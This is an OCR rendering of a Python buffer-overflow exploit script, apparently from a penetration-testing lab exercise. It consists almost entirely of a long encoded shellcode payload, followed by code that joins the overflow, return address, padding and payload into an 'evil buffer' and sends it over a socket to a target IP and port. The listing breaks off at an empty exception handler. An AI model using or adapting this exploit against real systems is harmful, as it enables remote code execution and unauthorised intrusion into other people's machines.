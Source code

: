     payload = ("\xba\x73\xec\xe7\xb3\xda\xd7\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
    
    "\x52\x83\xeb\xfc\x31\x53\x0e\x03\x20\xe2\x05\x46\x3a\x12\x4b"
    
    "\xa9\xc2\xe3\x2c\x23\x27\xd2\x6c\x57\x2c\x45\x5d\x13\x60\x6a"
    
    "\x16\x71\x90\xf9\x5a\x5e\x97\x4a\xd0\xb8\x96\x4b\x49\xf8\xb9"
    
    "\xcf\x90\x2d\x19\xf1\x5a\x20\x58\x36\x86\xc9\x08\xef\xcc\x7c"
    
    "\xbc\x84\x99\xbc\x37\xd6\x0c\xc5\xa4\xaf\x2f\xe4\x7b\xbb\x69"
    
    "\x26\x7a\x68\x02\x6f\x64\x6d\x2f\x39\x1f\x45\xdb\xb8\xc9\x97"
    
    "\x24\x16\x34\x18\xd7\x66\x71\x9f\x08\x1d\x8b\xe3\xb5\x26\x48"
    
    "\x99\x61\xa2\x4a\x39\xe1\x14\xb6\xbb\x26\xc2\x3d\xb7\x83\x80"
    
    "\x19\xd4\x12\x44\x12\xe0\x9f\x6b\xf4\x60\xdb\x4f\xd0\x29\xbf"
    
    "\xee\x41\x94\x6e\x0e\x91\x77\xce\xaa\xda\x9a\x1b\xc7\x81\xf2"
    
    "\xe8\xea\x39\x03\x67\x7c\x4a\x31\x28\xd6\xc4\x79\xa1\xf0\x13"
    
    "\x7d\x98\x45\x8b\x80\x23\xb6\x82\x46\x77\xe6\xbc\x6f\xf8\x6d"
    
    "\x3c\x8f\x2d\x21\x6c\x3f\x9e\x82\xdc\xff\x4e\x6b\x36\xf0\xb1"
    
    "\x8b\x39\xda\xd9\x26\xc0\x8d\xef\xa4\xba\xd0\x98\xca\x3a\xfa"
    
    "\x04\x42\xdc\x96\xa4\x02\x77\x0f\x5c\x0f\x03\xae\xa1\x85\x6e"
    
    "\xf0\x2a\x2a\x8f\xbf\xda\x47\x83\x28\x2b\x12\xf9\xff\x34\x88"
    
    "\x95\x9c\xa7\x57\x65\xea\xdb\xcf\x32\xbb\x2a\x06\xd6\x51\x14"
    
    "\xb0\xc4\xab\xc0\xfb\x4c\x70\x31\x05\x4d\xf5\x0d\x21\x5d\xc3"
    
    "\x8e\x6d\x09\x9b\xd8\x3b\xe7\x5d\xb3\x8d\x51\x34\x68\x44\x35"
    
    "\xc1\x42\x57\x43\xce\x8e\x21\xab\x7f\x67\x74\xd4\xb0\xef\x70"
    
    "\xad\xac\x8f\x7f\x64\x75\xaf\x9d\xac\x80\x58\x38\x25\x29\x05"
    
    "\xbb\x90\x6e\x30\x38\x10\x0f\xc7\x20\x51\x0a\x83\xe6\x8a\x66"
    
    "\x9c\x82\xac\xd5\x9d\x86")
    
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
	    s.connect((ip, port))
    
	    print("Sending evil buffer...")
    
	    s.send(bytes(buffer + "\r\n", "latin-1"))
    
	    print("Done!")
	    
    except:
    